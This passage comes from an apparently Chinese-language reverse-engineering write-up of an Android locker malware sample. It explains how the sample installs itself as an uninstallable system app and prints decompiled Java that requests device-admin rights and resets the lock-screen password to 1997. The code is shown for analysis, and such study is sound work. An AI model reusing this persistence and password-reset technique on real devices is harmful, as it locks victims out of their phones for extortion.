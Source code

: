 >很明显，这个是执行shell命令的代码。
>先把/system 和 /system/app 设置可读可写。
>再从sd卡把zihao.l复制到/system/app中，并且命名zihao.apk。
>最后再重启。
>/system/app是存放系统app的，这个操作呢，是把zihao.apk设置成系统app，并且不可卸载。
>这个zihao.apk也就是上面的ijm-x86.so，这个so文件其实一个apk程序，我们再来逆向分析一下这个ijm-x86.so。

### 分析第二层
>同样的手法，找到app的入口Activity.

```java
  @Override
  public void onCreate(Bundle paramBundle)
  {
    LogCatBroadcaster.start(this);
    super.onCreate(paramBundle);
    activiteDevice();
  }
```

继续跟进

```java
  private void activiteDevice()
  {
    Intent localIntent = new Intent("android.app.action.ADD_DEVICE_ADMIN");
    NoClassDefFoundError localNoClassDefFoundError;
    try
    {
      Class localClass = Class.forName("com.h.MyAdmin");
      ComponentName localComponentName = new ComponentName(this, localClass);
      localIntent.putExtra("android.app.extra.DEVICE_ADMIN", localComponentName);
      startActivityForResult(localIntent, 0);
      return;
    }
    catch (ClassNotFoundException localClassNotFoundException)
    {
      localNoClassDefFoundError = new NoClassDefFoundError(localClassNotFoundException.getMessage());
    }
    throw localNoClassDefFoundError;
  }
```
>操作打开激活设备管理器的界面

>来看看MyAdmin里面的代码。

```java
 @Override
  public void onEnabled(Context paramContext, Intent paramIntent)
  {
    String str = Integer.toString(1997);
    NoClassDefFoundError localNoClassDefFoundError;
    try
    {
      Class localClass = Class.forName("com.h.s");
      Intent localIntent = new Intent(paramContext, localClass);
      localIntent.setFlags(268435456);
      paramContext.startService(localIntent);
      getManager(paramContext).resetPassword(str, 0);
      super.onEnabled(paramContext, paramIntent);
      return;
    }
    catch (ClassNotFoundException localClassNotFoundException)
    {
      localNoClassDefFoundError = new NoClassDefFoundError(localClassNotFoundException.getMessage());
```